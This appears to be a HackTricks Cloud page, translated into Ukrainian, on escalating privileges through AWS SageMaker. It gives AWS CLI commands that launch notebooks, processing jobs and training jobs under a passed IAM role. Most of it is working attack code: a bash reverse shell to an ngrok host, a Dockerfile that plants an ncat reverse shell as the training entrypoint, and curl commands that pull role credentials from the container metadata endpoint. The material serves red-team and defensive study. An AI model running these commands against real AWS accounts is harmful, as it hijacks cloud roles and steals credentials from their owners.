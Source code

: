 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Почніть створювати нотатник з IAM роллю, щоб отримати доступ до нього:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Відповідь повинна містити поле `NotebookInstanceArn`, яке міститиме ARN новоствореного екземпляра блокнота. Потім ми можемо використовувати API `create-presigned-notebook-instance-url`, щоб згенерувати URL, який ми можемо використовувати для доступу до екземпляра блокнота, коли він буде готовий:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Перейдіть за URL-адресою в браузері та натисніть на \`Open JupyterLab\` у верхньому правому куті, потім прокрутіть вниз до вкладки “Launcher” і в розділі “Other” натисніть кнопку “Terminal”.

Тепер можливо отримати доступ до облікових даних метаданих IAM Role.

**Potential Impact:** Privesc до ролі служби sagemaker, що вказана.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Якщо на ньому вже **запущені Jupyter ноутбуки** і ви можете їх перерахувати за допомогою `sagemaker:ListNotebookInstances` (або виявити їх будь-яким іншим способом). Ви можете **згенерувати URL для них, отримати до них доступ і вкрасти облікові дані, як зазначено в попередній техніці**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Потенційний вплив:** Privesc до ролі служби sagemaker, що прикріплена.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Зловмисник з цими дозволами може змусити **sagemaker виконати обробку** з прикріпленою роллю sagemaker. Зловмисник може вказати визначення контейнера, який буде запущено в **управляємому AWS ECS обліковому записі**, і **викрасти облікові дані прикріпленої IAM ролі**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Потенційний вплив:** Privesc до ролі служби sagemaker, що вказана.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Зловмисник з цими дозволами зможе створити навчальну задачу, **запускаючи довільний контейнер** на ній з **прикріпленою роллю**. Отже, зловмисник зможе вкрасти облікові дані ролі.

{% hint style="warning" %}
Цей сценарій складніше експлуатувати, ніж попередній, оскільки вам потрібно створити Docker-образ, який надішле rev shell або облікові дані безпосередньо зловмиснику (ви не можете вказати команду запуску в конфігурації навчальної задачі).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Потенційний вплив:** Privesc до ролі служби sagemaker, що вказана.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Атакуючий з цими дозволами зможе (потенційно) створити **роботу з навчання гіперпараметрів**, **запускаючи довільний контейнер** на ній з **доданою роллю**.\
&#xNAN;_&#x49; не експлуатував через брак часу, але виглядає подібно до попередніх експлойтів, не соромтеся надіслати PR з деталями експлуатації._

## Посилання

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
